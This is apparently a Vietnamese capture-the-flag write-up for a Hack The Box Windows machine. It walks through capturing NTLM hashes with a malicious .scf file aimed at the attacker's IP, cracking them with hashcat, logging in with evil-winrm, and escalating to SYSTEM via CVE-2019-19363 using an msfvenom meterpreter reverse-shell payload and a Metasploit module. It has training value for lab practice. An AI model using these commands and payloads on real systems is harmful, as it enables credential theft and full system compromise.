## Task 1


Chúng ta bắt request thì nhận thấy một điểm lạ


> admin
## Task 2


> admin 
## Task 3


Khi đặt file `.scf` vào một file share, bất kỳ user nào **browse đến thư mục đó** bằng Windows Explorer sẽ tự động trigger SMB authentication — **không cần click vào file**.

> scf
## Task 4


Chúng ta chuẩn bị một file scf với nội dung
```
[Shell]
Command=2
IconFile=\\10.10.14.245\test
[Taskbar]
Command=ToggleDesktop
```
Chúng ta sẽ cap được nội dung như sau


Đây là NTLM-2 hash nên là mode 
> 5600
## Task 5


Theo gợi ý thì chúng ta dùng luôn hashcat để crack
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
Chúng ta sẽ thu được password


> liltony
## User Flag
Chúng ta cũng chưa biết máy này đang mở những port nào nên tiến hành quét

Server có mở winrm nên tiến hành login
```bash
evil-winrm -i 10.129.72.124 -u tony -p liltony
```

## Task 7


File history của user thì nằm cố định bên trong



> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
## Task 8


Tiến hành research liên quan thì thu được kết quả


### CVE-2019-19363
#### Bản chất lỗi
Driver Ricoh PCL6 UniversalDriver V4.23 khi cài đặt sẽ tạo các file DLL mà **mọi user đều có full control**: [qualys](https://threatprotect.qualys.com/2020/01/27/ricoh-printer-drivers-for-windows-local-privilege-escalation-vulnerability-cve-2019-19363/)
```
c:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\
├── borderline.dll    Everyone:(F)
├── headerfooter.dll  Everyone:(F)
├── jobhook.dll       Everyone:(F)
├── overlaywatermark.dll Everyone:(F)
├── popup.dll         Everyone:(F)
└── watermark.dll     Everyone:(F)
```
#### Cách khai thác
User quyền thấp có thể đọc/ghi file trong thư mục `RICOH_DRV` và các thư mục con. Nên chỉ cần: [rapid7](https://www.rapid7.com/db/modules/exploit_windows/local/ricoh_driver_privesc/)
1. **Thay thế một DLL** bằng DLL độc hại (ví dụ reverse shell)
2. Khi print spooler service (chạy với quyền **SYSTEM**) load DLL đó → **code execution với quyền SYSTEM**
```bash
# Trong Metasploit
use exploit/windows/local/ricoh_driver_privesc
set SESSION <session_id>
run
```

### Reverse shell
Nhưng lúc này chúng ta chưa có session nào cả vì vậy hãy tạo một reverse shell
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.245 LPORT=4444 -f exe > shell.exe
```
Trong WinRM tiến hành upload
```bash
upload shell.exe
```
Thực hiện msf để listen
```
use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp 
set lhost tun0 
set lport 4444 
run
```
Chúng ta đã có được session giờ quay về
```
<ctl+z>
<y> 
use exploit/windows/local/ricoh_driver_privesc 
set payload windows/x64/meterpreter/reverse_tcp 
set session 1 
set lhost tun0 
run
```
## Task 9


> migrate
## Task 10


> yes
## Root Flag
Tiến hành khai thác CVE được root flag
